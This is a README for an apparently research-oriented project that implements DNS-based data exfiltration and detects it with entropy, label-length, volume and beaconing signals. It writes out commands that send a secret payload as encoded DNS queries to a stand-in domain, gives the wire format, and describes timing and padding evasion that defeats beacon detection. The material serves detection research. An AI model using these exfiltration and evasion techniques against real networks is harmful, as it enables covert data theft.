


# dns-covert-channel-research

A dual-sided research implementation of DNS-based data exfiltration and detection. The offensive side is a Scapy-based DNS sender with three encoding schemes and a timing-evasion variant. The defensive side is a Python detection pipeline with four independent signals, a Zeek script, and an HTML report generator. Both sides run against each other with real PCAP evidence.

## How it works





Real-world precedent: SUNBURST (SolarWinds), DNSMessenger (FIN7), Cobalt Strike DNS C2.

## Quick start

No root, no network required for detection and dry-run:

```bash
pip install -r requirements-dev.txt

# See what queries would be sent — no packets transmitted
python -m cli.main send --payload "secret data" --dry-run
python -m cli.main send --payload "secret data" --dry-run --encoding base32

# Run the detector against the included real PCAP
python -m cli.main detect --pcap sample_data/exfil_session.pcap

# Generate an HTML report
python -m cli.main detect --pcap sample_data/exfil_session.pcap --format html --output report.html
```

**End-to-end receiver demo (requires sudo for raw sockets):**

```bash
# Terminal 1 — start the receiver on port 5353
python -m cli.main receive --port 5353

# Terminal 2 — send to the receiver's port
sudo python -m cli.main send --payload "secret" \
    --server 127.0.0.1 --server-port 5353 --domain exfil.invalid
```

## Screenshots

**Dry-run output — three encodings side by side:**


**Detector output — basic exfil session:**


**Detector output — evasion session (beacon signal absent):**


**Wireshark — encoded subdomain labels in PCAP:**


**HTML detection report:**


**Benchmark output:**


## Benchmark results

Detection run against real PCAP captures taken on a Kali Linux VM:

| Session | Queries | Confidence | Avg entropy | Avg label len | Beacon |
|---------|---------|------------|-------------|---------------|--------|
| basic   | 67      | high       | 3.16        | 33.0          | high   |
| evasion | 67      | high       | 3.50        | 37.0          | low    |

The evasion variant defeats beacon detection (CV rises from 0.02 to 0.48 with randomised delays) but remains detectable via entropy and label length. See `docs/detection_limits.md`.

## Detection matrix

Synthetic sessions across all encoding schemes and timing jitter levels (`python -m cli.main research --matrix`):

| Encoding | j=0.0 regular | j=0.3 moderate | j=0.8 random |
|----------|---------------|----------------|--------------|
| hex      | high (beacon: high) | high (beacon: medium) | high (beacon: low) |
| base32   | high (beacon: high) | high (beacon: medium) | high (beacon: low) |
| base64   | high (beacon: high) | high (beacon: medium) | high (beacon: low) |

All three schemes are detected at high confidence at every jitter level. Timing evasion reduces beacon confidence but does not change the headline detection result.

## Wire format

Each DNS query label: `NN_tag_chunk.target-domain`

| Part | Description |
|------|-------------|
| `NN` | Zero-padded sequence number (2+ digits) |
| `tag` | Encoding: `h` hex · `b32` base32 · `b64` base64url |
| `chunk` | 30-char slice of the encoded payload |

Example: `00_h_68656c6c6f.exfil.invalid`

The receiver reads the tag from each label, strips evasion padding using the encoding's own character set, and decodes accordingly.

## Detection signals

| Signal | Threshold | What it catches |
|--------|-----------|-----------------|
| Label length | avg > 20 chars | All encoding schemes — encoded labels average 30–37 chars |
| Shannon entropy | avg > 3.0 bits | base32 (4.27), base64 (4.44); hex-of-English at ~3.15 |
| Query volume | > 20 queries/domain | Sessions with payloads above ~285 bytes |
| Beaconing CV | < 0.15 high / < 0.30 medium | Fixed-interval automated senders |

Confidence grading: `high` when entropy + length both fire, or when either fires alongside beacon. `medium` for any single signal. Per-source-IP tracking is included.

## CLI reference

```
python -m cli.main send     --payload TEXT | --file PATH
                            [--domain TEXT] [--server TEXT] [--server-port INT]
                            [--encoding hex|base32|base64]
                            [--delay FLOAT] [--dry-run]
                            [--evasion] [--min-delay FLOAT] [--max-delay FLOAT] [--padding INT]

python -m cli.main detect   --pcap PATH | --zeek PATH
                            [--format text|json|html] [--output PATH]
                            [--threshold-entropy FLOAT]
                            [--threshold-length INT]
                            [--threshold-volume INT]

python -m cli.main receive  [--host TEXT] [--port INT] [--output PATH]

python -m cli.main benchmark [--sample-dir PATH] [--json]

python -m cli.main research  --sweep | --matrix [--output PATH]
```

`send` without `--dry-run` and `receive` require `sudo`.
All other subcommands run without root or network access.

## Project structure

```
exfil/          — encoder (hex/base32/base64), Scapy sender, config
evasion/        — randomised-timing, alphabet-matched-padding sender variant
detection/      — entropy, beacon detector, PCAP/Zeek analyzer, Zeek script, HTML reporter
receiver/       — UDP server that reconstructs payload from live encoded queries
analysis/       — benchmark comparing basic vs evasion sessions, JSON output
research/       — synthetic session generator, threshold sweep, encoding × jitter matrix
cli/            — unified CLI: send / detect / receive / benchmark / research
sample_data/    — real PCAP captures from Kali VM + Zeek dns.log sample
tests/          — 79 pytest tests, no network or root required
docs/           — technical documentation
```

## Requirements

- Python 3.10+
- scapy ≥ 2.5.0
- dpkt ≥ 1.9.8
- pytest ≥ 8.0 (dev)

## Documentation

- [`docs/how_it_works.md`](docs/how_it_works.md) — encoding pipeline, transmission mechanics, detection signal design
- [`docs/pcap_walkthrough.md`](docs/pcap_walkthrough.md) — annotated walkthrough of both sample PCAPs
- [`docs/detection_limits.md`](docs/detection_limits.md) — what is caught, what evades, what is genuinely out of scope
